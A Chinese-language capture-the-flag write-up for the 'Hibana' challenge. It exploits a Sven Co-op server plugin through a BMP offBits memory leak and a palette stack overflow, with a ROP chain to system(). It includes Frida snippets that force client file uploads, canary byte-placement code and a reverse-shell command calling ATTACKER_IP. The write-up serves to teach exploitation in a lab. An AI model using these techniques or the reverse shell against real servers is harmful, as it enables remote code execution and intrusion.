

# Hibana

## 题目简述

题目为 [Sven Co-op](https://store.steampowered.com/app/225840/Sven_Coop/) 的 GoldSrc 服务端安装了一个头顶贴图插件。服务端扫描 `headicons/*.bmp`，把 24 位 BMP 转成 GoldSrc SPR；玩家在聊天中输入文件名时，贴图会显示在角色头顶。



插件允许最大 $256\times256$ 的图片，但转换代码有两个独立漏洞：

1. BMP 文件头的 `offBits` 未做边界检查，可让像素指针越出 `mmap` 的文件区域并读取服务端内存。
2. 栈上调色板只有 256 项，遇到超过 256 种非黑色颜色时仍继续写入，造成栈溢出。

完整利用还要借助 GoldSrc 客户端和服务端共用的文件分片协议，把客户端本地构造的文件上传到服务器。

## 解题过程

### 1. 从客户端主动上传任意文件

题目额外提供 `engine_i686.so`，用于和客户端 `hw.dll` 对照文件传输逻辑。正常客户端只会上传喷漆等定制数据，但服务端关闭了反作弊，可以用 Frida 在 Windows 客户端中直接调用内部函数：

```javascript
var createFragments = new NativeFunction(
    hw.base.add(0x750E0), "void", ["int", "pointer", "pointer"]
);
var fragSend = new NativeFunction(
    hw.base.add(0x75730), "void", ["pointer"]
);
var clsNetchan = hw.base.add(0x399A38);

function sendFile(path) {
    createFragments(0, clsNetchan, Memory.allocAnsiString(path));
    fragSend(clsNetchan);
}
```

官方脚本替换 `CL_BeginUpload_f`，让控制台 `upload` 流程额外发送 `headicons/leak.bmp`；同时替换 `CL_ProcessFile`，在客户端下载服务端生成的 SPR 时截获并解析它。上述偏移只适用于题目提供的客户端版本。

### 2. 用 `offBits` 把服务端内存带回客户端

`ConvertToSprite` 只验证 BMP info header，却直接执行：

```cpp
pixel = reinterpret_cast<ColorBGR *>(bmp + header->offBits);
```

它没有检查 `offBits` 是否小于文件大小。题目是 32 位进程，官方 `leak.bmp` 把该字段设为 `0xffa5af00`，使像素指针落到与映射地址具有固定相对距离的主线程 TCB 附近。

伪造图像为 $16\times16$、24 位、无压缩 BMP。转换器把读到的 256 个三字节“像素”建立为调色板，再把调色板和索引写进 SPR；服务端随后又把 SPR 作为资源下载给客户端。因此本来位于服务端的 768 字节内存被无损编码进网络资源。

官方脚本依据 [GoldSrc SPR 解析代码](https://github.com/yuraj11/HL-Texture-Tools/blob/master/HL%20Texture%20Tools/HLTools/SpriteLoader.cs) 还原数据：SPR 的 768 字节调色板位于偏移 42，像素索引位于偏移 830；结合索引、上下翻转以及 BMP 的 BGR 与 SPR 的 RGB 差异，可重建原始 16×16×3 字节。题目环境中的关键位置为：

```javascript
var libc = dataView.getUint32(0x5c, true) - 0x22ac60;
var canary = dataView.getUint32(0xd4, true);
```

至此获得 32 位 libc 基址和栈 Canary。

### 3. 用颜色数量溢出栈上调色板

调色板定义为：

```cpp
ColorRGB palette[256];
```

每遇到一种新颜色，代码都执行 `palette[colorCount] = ...` 后递增 `colorCount`，但没有检查上限。官方恶意 BMP 使用 $71\times4=284$ 个互不相同的非黑色像素，比容量多 28 项，可向 `palette` 后继续写 $28\times3=84$ 字节，覆盖 Canary、保存寄存器和返回地址。

因为输入是 BGR 三元组，而内存中的 `ColorRGB` 按 RGB 写入，每组三字节会反序。脚本不是直接顺序复制 Canary，而是按下列方式放置：

```javascript
rop[768] = (canary >> 16) & 0xff;
rop[769] = (canary >> 8) & 0xff;
rop[770] = canary & 0xff;
rop[771] = 0x41;
rop[772] = 0x42;
rop[773] = canary >> 24;
```

转换后的栈内存才会得到正确的四字节 Canary。ROP 区同样要按每三字节逆序编码。

### 4. 上传脚本并触发 ROP

客户端先在 `svencoop_downloads` 下创建 `x.xyz`，内容为反连 shell 命令，再上传：

```text
bash -i >& /dev/tcp/ATTACKER_IP/4242 0>&1
```

ROP 链把 `edi` 设置为 `system`，通过若干 32 位 libc gadget 取得当前栈上命令字符串的地址，最终调用：

```text
bash svencoop_downloads//x.xyz
```

触发顺序需要两次地图重载：

1. 第一次 `votemap stadium4` / `voteyes` 后，服务器扫描 `leak.bmp`，生成并下发大小为 1086 字节的 SPR。
2. 客户端的 `CL_ProcessFile` hook 识别该 SPR，恢复 libc 和 Canary，生成并上传 `x.xyz` 与 `headicons/exploit.bmp`。
3. 第二次地图重载后，服务器扫描 `exploit.bmp`，在转换过程中触发调色板栈溢出和 ROP。

反连 shell 中读取到：

```text
SEKAI{Y0u_d_b3tt3r_g1ve_up_4nd_thr0w_y0ur_MP5_4w4y_e73055a9f6a73901526448276106bbe0}
```

## 方法总结

Hibana 是一条跨客户端、网络资源协议和服务端解析器的利用链。未校验的 `offBits` 先把任意服务端内存转换成合法 SPR 资源，解决 ASLR 与 Canary；无颜色数上限的调色板再提供栈溢出。Frida 并不直接攻击服务端，它负责解除客户端原本的上传限制并自动处理服务器回传资源。复现时必须保持题目客户端版本、32 位服务器布局、两次地图重载顺序和 BGR/RGB 字节重排一致。
